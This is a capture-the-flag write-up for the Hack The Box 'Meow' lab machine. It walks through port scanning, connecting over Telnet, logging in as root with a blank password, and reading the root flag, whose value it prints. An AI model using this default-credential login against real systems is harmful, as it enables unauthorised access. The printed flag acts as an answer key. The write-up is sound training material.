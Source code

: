 # HTB - Meow Notes

## Overview

**Machine Name:** Meow

**Difficulty Level:** Very Easy

**IP Address:** 10.129.237.177

**Objective:** Gain access via **Telnet (Port 23)** and retrieve the **root flag**.

## Step 1: Reconnaissance

### **Check if the Target is Online**

We first test if the machine is responsive by sending ICMP echo requests:

```bash
ping 10.129.237.177
```

### **Expected Output:**

- If the host is **up**, you should see **64 bytes** responses.
- If there’s **100% packet loss**, the machine may be down.

### **Scan for Open Ports and Services**

We run an **Nmap scan** to detect open ports and running services:

```bash
nmap -p- -sV 10.129.237.177
```

### **Results:**

```
PORT   STATE SERVICE VERSION
23/tcp open  telnet
```

- **Telnet (Port 23)** is open, indicating a potential security risk.

## Step 2: Exploitation (Gaining Access)

### **Connect to Telnet**

Since Telnet is **unauthenticated**, we attempt to connect:

```bash
telnet 10.129.237.177
```

### **Expected Response:**

You should receive a prompt asking for **login credentials**.

### **Attempt Login with Default Credentials**

Many **misconfigured systems** allow access with default or blank passwords. We try logging in as `root` with no password:

```bash
Meow login: root
(Press Enter when prompted for a password)
```

Successfully logged in as **root**!

## Step 3: Capture the Root Flag

### **Navigate to the Root Directory**

Once inside the system, list files in the `/root` directory:

```bash
ls -la /root
```

### **Expected Output:**

```
-rw-r--r--  1 root root 33 Mar 14 15:59 root.txt
```

### **2️⃣ Retrieve the Flag**

```bash
cat /root/root.txt
```

### **Root Flag:**

```
b40abdfe23665f766f9c61ecba8a4c19
```

Submit the flag to **HTB**!

## Step 4: Lessons Learned

- **Telnet is highly insecure** as it transmits data in plaintext.
- Always **disable Telnet** and use **SSH (port 22)** for secure remote access.
- **Default credentials are a major security risk**—always change them!
